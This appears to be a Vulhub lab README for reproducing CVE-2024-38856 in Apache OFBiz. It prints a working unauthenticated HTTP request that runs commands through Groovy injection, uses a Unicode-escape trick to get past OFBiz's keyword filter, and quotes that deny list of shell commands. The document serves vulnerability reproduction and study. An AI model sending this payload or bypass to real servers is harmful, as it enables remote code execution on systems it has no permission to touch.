 # Apache OFBiz Authentication Bypass Leads to RCE (CVE-2024-38856)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability occurs as a result of incomplete fixing for [CVE-2023-51467](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-51467). In Apache OFBiz version 18.12.11, the developers believe they have fixed the vulnerability, but in reality, they have only addressed one method of exploiting it. The Groovy expression injection still exists and allows unauthorized users to execute arbitrary commands on the server.

References:

- <https://github.com/apache/ofbiz-framework/commit/31d8d7>
- <https://forum.butian.net/article/524>
- <https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz>

## Vulnerable environment

Executing following command to start an Apache OfBiz 18.12.14 server:

```
docker compose up
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

Send following request to execute command `id` by Groovy script:

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Length: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Disposition: form-data; name="groovyProgram"

throw new Exception('id'.\u0065xecute().text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```

![](1.png)

Noted that Apache Ofbiz restricts the use of the following keywords, but we can bypass this restriction using Unicode characters like `\u0065xecute`.

```
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate,\
                     execute,println,calc,touch,calculate
```
